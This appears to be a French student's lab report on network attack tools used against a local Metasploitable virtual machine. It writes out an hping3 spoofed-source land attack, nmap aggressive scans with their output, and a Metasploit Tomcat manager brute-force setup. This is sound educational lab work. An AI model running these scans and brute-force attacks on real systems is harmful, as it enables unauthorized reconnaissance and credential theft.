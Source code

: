 # TP 2
Les premières difficultés sont venues de l'installation : entre la copie des archives depuis la clé USB, la fastidieuse libération des 40 Go nécessaire sur mon ordinateur qui n'en avait plus que 10 de libre, et la décompression (étonament lente ?), 1h45 on été perdues au début de la séance.  

## hping3
- Je commence par tester l'envoi de paquets SYN sur différents ports (toujours avec 80 comme port source).  
Le port 80 me renvoie un SA (flags=SA), le port 1234 me donne RA.  

- J'essaie ensuite avec des paquets ACK : `hping3 -A -s 80 -p 80 -c 3 192.168.56.102`  
-> la réponse est toujours R (flags=R)  

- Attaque land contre le port SSH : `hping3 -S -s 22 -p 22 -c 3 -a 192.168.56.102 192.168.56.102`  
-> Je suis supposé ne pas recevoir de réponse, car étant donné que j'ai donné une fausse IP source, ma destination va envoyer sa réponse à cette dernière et non pas à moi.  Problème : je reçois bien un paquet ? Aucune idée de pourquoi/comment  

## nmap
- Je commence par tester le scan basique des ports TCP puis de tous les ports : `nmap -p [1-65535] -v -n 192.168.56.102`  
-> Sortie
    ```
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 11:49 CEST
    Initiating ARP Ping Scan at 11:49
    Scanning 192.168.56.102 [1 port]
    Completed ARP Ping Scan at 11:49, 0.06s elapsed (1 total hosts)
    Initiating SYN Stealth Scan at 11:49
    Scanning 192.168.56.102 [1000 ports]
    Discovered open port 139/tcp on 192.168.56.102
    Discovered open port 25/tcp on 192.168.56.102
    Discovered open port 53/tcp on 192.168.56.102
    Discovered open port 80/tcp on 192.168.56.102
    ...
        ...
    Nmap done: 1 IP address (1 host up) scanned in 0.35 seconds
        Raw packets sent: 1001 (44.028KB) | Rcvd: 1001 (40.120KB)
    ```



- Scan agressif de tous les ports : `nmap -A -p 1-65535 -v -n 192.168.56.102`  
-> Sortie  
    ```
    Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 11:35 CEST
    NSE: Loaded 155 scripts for scanning.
    NSE: Script Pre-scanning.
    Initiating NSE at 11:35
    Completed NSE at 11:35, 0.00s elapsed
    Initiating NSE at 11:35
    Completed NSE at 11:35, 0.00s elapsed
    Initiating NSE at 11:35
    Completed NSE at 11:35, 0.00s elapsed
    Initiating ARP Ping Scan at 11:35
    Scanning 192.168.56.102 [1 port]
    Completed ARP Ping Scan at 11:35, 0.04s elapsed (1 total hosts)
    Initiating SYN Stealth Scan at 11:35
    ```

    On remarque des affichages spécifiques pour certains ports : pour ces ports connus, des tests supplémentaires ont été effectués afin d'obtenir + d'infos sur la cible. Exemple avec MySQL : 

    ```
    3306/tcp open  mysql       MySQL 5.0.51a-3ubuntu5
    | mysql-info: 
    |   Protocol: 10
    |   Version: 5.0.51a-3ubuntu5
    |   Thread ID: 26
    |   Capabilities flags: 43564
    |   Some Capabilities: ConnectWithDatabase, Speaks41ProtocolNew, SupportsCompression, Support41Auth, SupportsTransactions, LongColumnFlag, SwitchToSSLAfterHandshake
    |   Status: Autocommit
    |_  Salt: #!{i}X~5+v25R}Ajqy,k

    ```

    On obtient également des informations sur la machine cible elle-même

    ```
    Host script results:
    | smb-os-discovery: 
    |   OS: Unix (Samba 3.0.20-Debian)
    |   Computer name: metasploitable
    |   NetBIOS computer name: 
    |   Domain name: localdomain
    |   FQDN: metasploitable.localdomain
    |_  System time: 2023-10-20T05:36:01-04:00

    ```

    Je remarque également que 19 paquets supplémentaires ont été envoyés par rapport au scan de base (1020 contre 1001), ce qui semble être très peu ?

    ```
    Nmap done: 1 IP address (1 host up) scanned in 25.24 seconds
           Raw packets sent: 1020 (45.626KB) | Rcvd: 1016 (41.430KB)
    ```


- Scan des 22 ports les plus courants : 
    - Sans tous les tests : `nmap -p 1-65535 -v -n --top-ports 22 192.168.56.102`  
        ```
        Starting Nmap 7.93 ( https://nmap.org ) at 2023-10-20 11:44 CEST
        Initiating ARP Ping Scan at 11:44
        Scanning 192.168.56.102 [1 port]
        Completed ARP Ping Scan at 11:44, 0.06s elapsed (1 total hosts)
        Initiating SYN Stealth Scan at 11:44
        Scanning 192.168.56.102 [22 ports]
        Discovered open port 53/tcp on 192.168.56.102
        Discovered open port 139/tcp on 192.168.56.102
        Discovered open port 111/tcp on 192.168.56.102
        ```

        Cette fois seuls 23 paquets ont été envoyés. 

    - Avec tous les tests : `nmap -A -p 1-65535 -v -n --top-ports 22 192.168.56.102`  
    -> La sortie est globalement la même que pour le scan agressif précédent.  
    Cette fois c'est 42 paquets qui ont été envoyés (comme tout à l'heure 19 de + que pour le scan non-agressifs, ce qui semble indiquer que le scan agressif ne demande en général que l'envoi de 19 paquets)

## Metasploit 

- `db_status` (juste pour vérifier) : "[*] Connected to msf. Connection type: postgresql. Connection name: local_db_service.
"

### Brute force 
- Recherche de l'exploit : `search mgr_login` : ![Alt text](image.png)
- `use auxiliary/scanner/http/tomcat_mgr_login` : Le terminal m'indique qu'on est en train d'utiliser l'exploit   
![Alt text](image-1.png)
- On set les options : 
    - `set RHOSTS 192.168.56.102` : "RHOSTS => 192.168.56.102"
    - `set RPORT 8180` : "RPORT => 8180"
- On lance l'exploit avec `exploit` : ![Alt text](image-2.png)  
On finit par trouver un login correct, le brute force a réussi  
![Alt text](image-3.png)  

Puis la VM a soudainement planté et je crois que c'est un signe qui m'indique qu'il est temps de m'arrêter.  